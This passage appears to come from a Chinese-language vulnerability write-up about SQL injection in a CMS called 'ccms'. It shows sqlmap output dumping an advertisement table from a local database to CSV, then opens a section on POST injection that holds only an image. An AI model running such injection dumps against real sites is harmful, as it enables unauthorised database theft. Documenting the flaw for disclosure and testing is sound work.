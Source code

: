 ```php
+----------+-------------+-------------+------+---------------+--------+---------+----------------------------------------+----------------------------------+------------+---------------------+---------------------+
| 1        | 1           | 1122222     | 0    | www.baidu.com | 1      | ????    | NULL                                   | /Uploads/adver/56a483909bc2a.png | ????x      | NULL                | 2016-01-24 15:56:00 |
| 2        | 1           | 12          | 0    | NULL          | 1      | NULL    | NULL                                   | NULL                             | ??????     | NULL                | NULL                |
| 4        | 1           | 11          | 0    | <blank>       | 1      | <blank> | /uploads/adver/56af3d6fdb595_thumb.png | /uploads/adver/56af3d6fdb595.png | xxxyccc    | 2016-02-01 18:44:42 | 2016-02-01 19:11:43 |
| 5        | 1           | 11          | 0    | <blank>       | 1      | <blank> | /uploads/adver/56af3daa2661a_thumb.png | /uploads/adver/56af3daa2661a.png | yyy        | 2016-02-01 18:46:58 | 2016-02-01 19:12:42 |
| 6        | 1           | 11          | 0    | <blank>       | 1      | <blank> | /uploads/adver/56af3aae0c55c_thumb.png | /uploads/adver/56af3aae0c55c.png | eeee       | 2016-02-01 18:49:03 | 2016-02-01 18:59:58 |
+----------+-------------+-------------+------+---------------+--------+---------+----------------------------------------+----------------------------------+------------+---------------------+---------------------+

[11:42:07] [INFO] table 'ccms.adver' dumped to CSV file 'C:\Users\cmk\.sqlmap\output\127.0.0.1\dump\ccms\adver.csv'
[11:42:07] [INFO] fetched data logged to text files under 'C:\Users\cmk\.sqlmap\output\127.0.0.1'

```

## post注入

![](images/post_inject.png)
